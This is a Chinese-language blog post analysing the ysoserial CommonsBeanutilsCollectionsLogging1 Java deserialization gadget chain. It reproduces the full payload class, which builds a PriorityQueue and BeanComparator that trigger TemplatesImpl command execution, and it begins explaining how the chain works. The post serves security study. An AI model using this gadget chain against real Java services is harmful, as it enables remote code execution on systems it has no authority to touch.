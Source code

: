```yaml
---
layout: post
title: Ysoserial中的CommonsBeanutilsCollectionsLogging1分析
tags: [Java, Gadgets]
comment: false
---
```


## 0x00 CommonsBeanutilsCollectionsLogging1
依赖：
- commons-beanutils:1.9.2
- commons-collections:3.1
- commons-logging:1.2

ysoserial/payloads/CommonsBeanutilsCollectionsLogging1.java:
```java
public class CommonsBeanutilsCollectionsLogging1 implements ObjectPayload<Object> {

	public Object getObject(final String command) throws Exception {
		final TemplatesImpl templates = Gadgets.createTemplatesImpl(command);
		// mock method name until armed
		final BeanComparator comparator = new BeanComparator("lowestSetBit");

		// create queue with numbers and basic comparator
		final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
		// stub data for replacement later
		queue.add(new BigInteger("1"));
		queue.add(new BigInteger("1"));

		// switch method called by comparator
		Reflections.setFieldValue(comparator, "property", "outputProperties");

		// switch contents of queue
		final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
		queueArray[0] = templates;
		queueArray[1] = templates;

		return queue;
	}

	public static void main(final String[] args) throws Exception {
		PayloadRunner.run(CommonsBeanutilsCollectionsLogging1.class, args);
	}
}
```
Ysoserial 中每个 payload 的生成类都需要实现 ObjectPayload 接口中的 getObject 方法，该方法的功能为传入要执行的命令然后返回构造好的对象。
```java
final TemplatesImpl templates = Gadgets.createTemplatesImpl(command);
```
从第一句可以看出这里的命令执行需要用到 TemplatesImpl 中的执行链，之前 fastjson 反序列化的 POC 构造也是用的这个，具体可以看参考中的链接。
